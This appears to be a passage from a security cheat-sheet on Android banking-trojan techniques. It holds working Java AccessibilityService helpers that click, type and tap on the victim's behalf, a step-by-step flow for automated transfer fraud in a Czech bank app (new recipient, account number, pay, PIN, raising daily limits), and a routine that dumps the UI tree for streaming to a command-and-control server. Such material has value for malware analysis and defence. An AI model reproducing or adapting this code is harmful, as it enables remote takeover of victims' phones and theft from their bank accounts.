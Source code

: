 ## ATS automation cheat-sheet (Accessibility-driven)
Malware can fully automate a bank app with only Accessibility APIs. Generic primitives:

```java
// Helpers inside your AccessibilityService
private List<AccessibilityNodeInfo> byText(String t){
  AccessibilityNodeInfo r = getRootInActiveWindow();
  return r == null ? Collections.emptyList() : r.findAccessibilityNodeInfosByText(t);
}
private boolean clickText(String t){
  for (AccessibilityNodeInfo n: byText(t)){
    if (n.isClickable()) return n.performAction(ACTION_CLICK);
    AccessibilityNodeInfo p = n.getParent();
    if (p != null) return p.performAction(ACTION_CLICK);
  }
  return false;
}
private void inputText(AccessibilityNodeInfo field, String text){
  Bundle b = new Bundle(); b.putCharSequence(ACTION_ARGUMENT_SET_TEXT_CHARSEQUENCE, text);
  field.performAction(ACTION_SET_TEXT, b);
}
private void tap(float x, float y){
  Path p = new Path(); p.moveTo(x,y);
  dispatchGesture(new GestureDescription.Builder()
    .addStroke(new GestureDescription.StrokeDescription(p,0,40)).build(), null, null);
}
```

Example flow (Czech → English labels):
- "Nová platba" (New payment) → click
- "Zadat platbu" (Enter payment) → click
- "Nový příjemce" (New recipient) → click
- "Domácí číslo účtu" (Domestic account number) → focus and `ACTION_SET_TEXT`
- "Další" (Next) → click → … "Zaplatit" (Pay) → click → enter PIN

Fallback: hard-coded coordinates with `dispatchGesture` when text lookup fails due to custom widgets.

Also seen: pre-steps to `check_limit` and `limit` by navigating to limits UI and increasing daily limits before transfer.

## Text-based pseudo-screen streaming
For low-latency remote control, instead of full video streaming, dump a textual representation of the current UI tree and send it to C2 repeatedly.

```java
private void dumpTree(AccessibilityNodeInfo n, String indent, StringBuilder sb){
  if (n==null) return;
  Rect b = new Rect(); n.getBoundsInScreen(b);
  CharSequence txt = n.getText(); CharSequence cls = n.getClassName();
  sb.append(indent).append("[").append(cls).append("] ")
    .append(txt==null?"":txt).append(" ")
    .append(b.toShortString()).append("\n");
  for (int i=0;i<n.getChildCount();i++) dumpTree(n.getChild(i), indent+"  ", sb);
}
```
